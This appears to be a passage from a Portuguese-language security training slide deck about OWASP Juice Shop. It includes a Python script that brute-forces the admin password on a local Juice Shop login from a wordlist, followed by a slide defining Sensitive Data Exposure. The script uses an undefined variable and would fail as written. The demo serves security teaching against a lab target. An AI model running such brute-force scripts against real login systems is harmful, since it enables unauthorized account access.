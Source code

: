 <div>

<v-click>

### Python Wordlist bruteforce
```python {3|4|5|6|8|9-11|12-14|all}
import requests

url = "http://localhost:3000/rest/user/login"
params = {"email":"admin@juice-sh.op","password":""}
wordlist = open("wordlist.txt", "r")
linhas = wordlist.readlines()

for index, line in enumerate(linhas):
    params["password"] = line.rstrip("\n")
    tentativa_login = requests.post(url,params)
    print("Tentativa {}, Senha: {}".format(index, senha))
    if tentativa_login.status_code != 401:
        print("Achei a senha: {}".format(senha))
        break
```
</v-click>

</div>

</div>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent; 
  -moz-text-fill-color: transparent;
}
</style>

---

# Sensitive Data Exposure

<div grid="~ cols-2 gap-4">
<div>
Muitas aplicações web e APIs não protegem de forma adequada dados sensíveis, tais como dados financeiros, de saúde ou dados de identificação pessoal (PII). Os atacantes podem roubar ou modificar estes dados mal protegidos para realizar fraudes com cartões de crédito, roubo de identidade, ou outros crimes. Os dados sensíveis necessitam de proteções de segurança extra como encriptação quando armazenados ou em trânsito, tal como precauções especiais quando trocadas com o navegador web.
</div>

</div>
